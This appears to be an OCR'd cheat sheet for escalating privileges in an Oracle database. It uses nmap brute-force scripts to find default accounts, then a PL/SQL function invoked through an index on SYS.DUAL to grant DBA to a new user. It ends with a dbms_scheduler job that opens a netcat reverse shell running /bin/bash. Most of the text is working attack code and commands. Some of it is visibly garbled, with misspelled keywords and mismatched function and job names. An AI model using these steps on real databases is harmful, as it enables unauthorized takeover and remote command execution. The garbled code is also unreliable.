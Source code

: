                 Quick overview of how this works:
                1. Create the function
                2. Create an index on table SYS.DUAL
                3. The index we just created executes our function SCOTT.GDTDBA('BAR');
                4. The function will be executed by SYS user (as that's the user that owns the table).
                5. Create an account with DBA priveleges
                In the example below the user SCOTT is used but this should be possible with another default Oracle account.
                Identify default accounts within oracle db using NMAP NSE scripts:
                ```
                nmap --script=oracle-sid-brute
                nmap --script=oracle-brute
                ```
                Login using the identified weak account (assuming you find one).
                How to identify the current privilege level for an oracle user:
                ```
                SQL> select * from session_privs;
                ```
                ```
                SQL> CREATE OR REPLACE FUNCTION GETDBA(FOO varchar) return varchar curren_user is pragma autonomous_transaction; begin execute immediate 'grant dba to user1 identified by pass1'; commit; return 'FOO'; end;
                ```
                Oracle priv esc and obtain DBA access:
                Run netcat:
                ```
                netcat -nvlp 443 code>
                ```
                ```
                SQL> create index exploit_1337 on SYS.DUAL(SCOTT.GETDBA('BAR'));
                ```
                Run the exploit with a select query:
                ```
                SQL> Select * from session_privs;
                ```
                You should have a DBA user with creds user1 and pass1.
                Verify you have DBA privileges by re-running the first command again.
                Remove the exploit using:
                ```
                drop index exploit_1337;
                ```
                Get Oracle Reverse os-shell:
                ```
                begin dbms_scheduler.create_job( job_name => 'MEH1337',job_type => 'EXECUTABLE',job_action => '/bin/nc',number_of_arguments => 4, SYSTIMESTAMP,enabled => FALSE,auto_drop => TRUE); dbms_scheduler.set_job_argument_value('rev_shell', 1, 'TARGET-IP'); dbms_scheduler.set_job_argument_value('rev_shell', 2, '443'); dbms_scheduler.set_job_argument_value('rev_shell', 3, '-e'); dbms_scheduler.set_job_argument_value('rev_shell', 4, '/bin/bash'); dbms_scheduler.enable('rev_shell'); end;

